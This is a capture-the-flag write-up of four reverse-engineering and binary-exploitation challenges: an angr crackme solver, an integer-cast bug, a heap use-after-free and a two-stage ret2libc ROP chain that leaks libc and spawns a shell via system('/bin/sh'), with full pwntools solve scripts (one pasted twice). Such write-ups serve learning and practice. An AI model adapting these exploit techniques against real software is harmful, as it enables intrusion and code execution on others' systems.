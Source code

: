 ## Table of Contents
- [rev/easy-crackme](#reveasy-crackme)
- [pwn/orcwars](#pwnorcwars)
- [pwn/flag-service](#pwnflag-service)
- [pwn/babyrop](#pwnbabyrop)

## Rev/Easy-Crackme

![image](https://github.com/user-attachments/assets/0bb9c9fc-0c5f-4733-82f8-96ef33e8e61a)

Looking at the decompilation in Ghidra, we can just reassemble the flag from local_78 to local_4f but I decided to use angr to solve it.

```py
import angr
import claripy

FLAG_LEN = 42# Provide flag length
STDIN_FD = 0
base_addr = 0x00100000

proj = angr.Project("./easy_crackme", main_opts={'base_addr': base_addr})

flag_chars = [claripy.BVS(f"flag_{i}", 8) for i in range(FLAG_LEN)]                                               

flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')])  # so that stdin works by adding \n to the end

state = proj.factory.entry_state(stdin=flag)

for c in flag_chars:					# make sure only printable characters
	state.solver.add(c >= ord('!'))
	state.solver.add(c <= ord('~'))

my_simgr = proj.factory.simgr(state)
find_addr = 0x00101435
avoid_addr = 0x0010145a 
my_simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(my_simgr.found) > 0): # If a found state exists
	for found in my_simgr.found:
		print(found.posix.dumps(STDIN_FD)) # Print out the input
```

![image](https://github.com/user-attachments/assets/dd8c6a01-e80e-4f25-ab30-54c1e2fad345)

## :drop_of_blood: Pwn/Orcwars

![image](https://github.com/user-attachments/assets/21264960-b2c2-461c-91eb-f2ebbe3cfa66)

We are presented with a menu based game where we need to get more troops than the enemy

![image](https://github.com/user-attachments/assets/f8699ce3-687a-4789-bd29-237626d15822)

Our total troops must be at least 0x22a to get the flag.

![image](https://github.com/user-attachments/assets/6b8eeebf-0b8d-492b-9987-9bd50448e129)

The problem lies in the line `if ((int)local_34 < (int)(uVar5 * 100)) {`. The variable uVar5 is declared as an unsigned integer but is being casted to an integer. Hence, we can give a large number of mercenaries. After multiplying by 100, it should result in a negative number due to how integer works.

![image](https://github.com/user-attachments/assets/8903b488-c489-436b-84a8-cd229f4b0bd8)

Enter 1.1 billion

![image](https://github.com/user-attachments/assets/67e7ef6a-00e7-436b-b3aa-f8d4b575d062)

Fake flag because the remote server is not active anymore, so I just ran this locally.

## :drop_of_blood: Pwn/Flag-service

![image](https://github.com/user-attachments/assets/f717f137-9dee-48e0-929d-40b98517fa8a)

Another menu type challenge.

<details>
<summary>Decompiled Code</summary>

```c
    switch(uVar3) {
    case 0:
      puts("not a valid input\n");
      break;
    case 1:
      puts("enter your name :");
      if (local_20 != (undefined8 *)0x0) {
        free(local_20);
      }
      local_20 = (undefined8 *)malloc(0x10);
      puVar4 = (undefined8 *)fgets((char *)local_20,0x10,stdin);
      if (puVar4 == local_20) {
        sVar5 = strlen((char *)local_20);
        *(undefined *)((long)local_20 + (sVar5 - 1)) = 0;
      }
      else {
        puts("error with name !");
        *local_20 = 0x6e776f6e6b6e75;
      }
      break;
    case 2:
      puts("how many flags do you want ? \n(100$ per flag, max 9999 flags)");
      nbflag = get_int_input(1,9999);
      if (!deleted) {
        free(order);
      }
      order = (uint *)malloc(8);
      order[1] = nbflag;
      *order = nbflag * 100;
      printf("you want %d flags, which will cost %d$\n",(ulong)nbflag,(ulong)(nbflag * 100));
      deleted = false;
      fflush(stdin);
      break;
    case 3:
      if (deleted) {
        puts("you don\'t have any order to delete");
      }
      else {
        order[1] = 0;
        *order = 999;
        free(order);
        deleted = true;
        puts("you deleted your order !");
      }
      break;
    case 4:
      if (((int)*order < 0) || ((int)money < (int)*order)) {
        puts("you don\'t have enough money to buy those flags !");
      }
      else {
        money = money - *order;
        flags = order[1];
        puts("you successfully bought the flag !");
        printf("you now have %d flags\n",(ulong)flags);
      }
      if (0 < (int)flags) {
        print_flag();
        bVar2 = false;
      }
      break;
    case 5:
      puts("Bye !");
      bVar2 = false;
      break;
```

</details>

There is a Use-After-Free (UAF) vulnerability in option 3 when deleting an order. After freeing the chunk, the order variable is not set to NULL so the pointer to the freed chunk is still able to be used. Another thing to keep in mind is that malloc(0x8) and malloc(0x10) will return the same sized chunk because the minimum size for a heap chunk is 0x10 bytes (excluding metadata). Hence, the steps of our attack will be as follows

- Create an order chunk
- Delete that order chunk
- Allocate the name chunk, the contents of this chunk will reflect your order chunk. Hence, just make the price of the flag to become $1
- Profit

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/93cbac59-c515-4e0d-99f8-18d7dc772f94)

## :drop_of_blood: Pwn/BabyROP

![image](https://github.com/user-attachments/assets/0a8006ec-9719-4f98-ab92-dcd8055affbf)

Classic BOF challenge with no win function, and only puts() imported into the binary.

![image](https://github.com/user-attachments/assets/4ddff79b-4cb4-49c3-91e0-b8f10dfe90a6)

A pop rdi gadget also conveniently placed for us. Our exploit will be split into 2 stages. First we must leak libc, then we should execute a ret2system.

### Stage 1 payload

```py
offset = 24
pop_rdi = 0x0000000000401283# : pop rdi ; ret

payload = b"a" * offset
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym.main)
```

We will overwrite the return address to call puts() and use the GOT address of puts as the argument, then we will loop back to main to trigger BOF again and run our 2nd stage.

![image](https://github.com/user-attachments/assets/d58b7404-de82-418d-8ed0-0e6f006216b9)

We have successfully leaked the libc address `\xa0\xc5s\x8d\x88\x7f`

```py
leak = u64(rl().strip().ljust(8, b"\x00"))
print("leak @ ", hex(leak))
libc.address = leak - libc.sym["puts"]
li(f"libc @ {hex(libc.address)}")
```

We can calculate the base of libc with this.

```py
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
```

Now, we can search for the address of system() and the string "/bin/sh"

```py
payload = b"a" * offset
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
```

Finally, we can craft our payload to give us RCE.

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./babyROP_patched')
libc = ELF('./libc.so.6')

host = "baby-rop.warzone-challenges.com"
port = 1343

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

offset = 24
pop_rdi = 0x0000000000401283# : pop rdi ; ret

payload = b"a" * offset
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym.main)

sl(payload)

rl()
rl()
rl()
leak = u64(rl().strip().ljust(8, b"\x00"))
print("leak @ ", hex(leak))
libc.address = leak - libc.sym["puts"]
li(f"libc @ {hex(libc.address)}")

system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
li(f"libc @ {hex(system)}")
li(f"libc @ {hex(binsh)}")

payload = b"a" * offset
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

sl(payload)

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/ac124e0b-c206-4a4a-b782-4783f527e287)
